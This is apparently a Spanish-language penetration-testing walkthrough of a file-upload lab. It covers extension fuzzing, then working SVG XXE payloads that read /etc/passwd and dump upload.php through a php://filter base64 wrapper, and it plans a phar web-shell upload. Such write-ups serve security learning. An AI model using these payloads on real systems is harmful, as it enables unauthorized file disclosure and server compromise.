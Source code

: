 ```bash
sh
shtml
sql
swf
txt
xml
```

en el intruder quitamos el URL encoded de caracteres especiales para evitar problemas:

![[Pasted image 20230107210911.png]]

vemos que svg y phar son validos:

![[Pasted image 20230107211206.png]]

- con **svg** podemos intentar una lectura de archivos a traves de XXE
- con **phar** podemos realizar la carga de la web shell, pero primero debemos ver que extensiones estan validas.

### XXE CON SVG

- Colocamos la extension a al archivo con **.svg**
- Quitamos la firma del MIME Type de jpeg
- colocamos el siguiente contenido XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

![[Pasted image 20230107212809.png]]

como podemos leer archivos, vamos a leer el archivo de carga **upload.php**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![[Pasted image 20230107213102.png]]

```bash
echo "OUTPUT" | base64 -d > upload.php
```

![[Pasted image 20230107213238.png]]

podemos ver 2 cosas importantes:

- la ruta de la carga de archivos es **/user_feedback_submissions/**
- Esta renombrando el archivo a:

```php
date('ymd')_NOMBREARCHIVO
```

